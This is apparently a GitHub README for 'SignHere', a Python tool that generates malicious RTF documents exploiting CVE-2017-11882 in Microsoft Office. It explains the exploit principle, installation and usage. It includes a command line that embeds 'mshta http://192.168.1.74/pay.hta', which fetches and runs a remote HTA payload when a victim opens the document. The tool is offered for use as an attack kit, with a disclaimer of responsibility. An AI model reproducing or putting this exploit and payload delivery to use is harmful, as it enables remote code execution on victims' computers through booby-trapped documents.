 ## SignHere
<b>Introduction</b>

<b>CVE-2017-11882</b> - The unique vulnerability identifier of Microsoft Office 2007 Service Pack 3, Microsoft Office 2010 Service Pack 2, Microsoft Office 2013 Service Pack 1, and Microsoft Office 2016 allows an attacker to run code in the context of the current user without properly handling objects in memory, the so-called "Microsoft Office Memory corruption vulnerability".
The implementation includes creating a program for building malicious rtf documents and payloads in VBScript

<b>The principle of operation</b>
It is rtf documents that are vulnerable for the reason that they can be "programmed" by knowing special commands-RTF Headers. Thus, a binary (executable) object is created in the body of the document, in fact, it is a Microsoft Equation formula with the code that contains the cmd command. Then you can generate the payload in VBScript and use the command " mshta link to the payload file” to execute the hta file.

<br>

# Atention!
Author and contributors <b>are not responsible</b> for any damage caused to you or by you.

## Installation
The program requires [Python 3](https://www.python.org) for executing.
--
<b>Linux</b>
--
You can use <b>Termux</b>, but execution of program requires <b>root</b>

```sh
git clone https://github.com/Retr0-code/SignHere/
cd SignHere/
chmod +x SignHere.py
./SignHere.py --help
```
<br>

<b>Windows</b>
--
First, you need to download the [archive](https://github.com/Retr0-code/SignHere/archive/main.zip). Then unpack it and open a PowerShell window in this folder and write:
```sh
.\SignHere.py
```

## Usage

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --powershell "start iexplore.exe https://github.com/Retr0-code/SignHere" --ip 192.168.1.74 --output generated.rtf
```

<b>--cmd</b>
Argument with Windows command that will be executed after opening document.

<b>--powershell</b>
Argument with powershell command that will be in VBScript payload

<b>--ip</b>
Argument with ip address that will be used for web-server

<b>--output</b>
Name and path of document
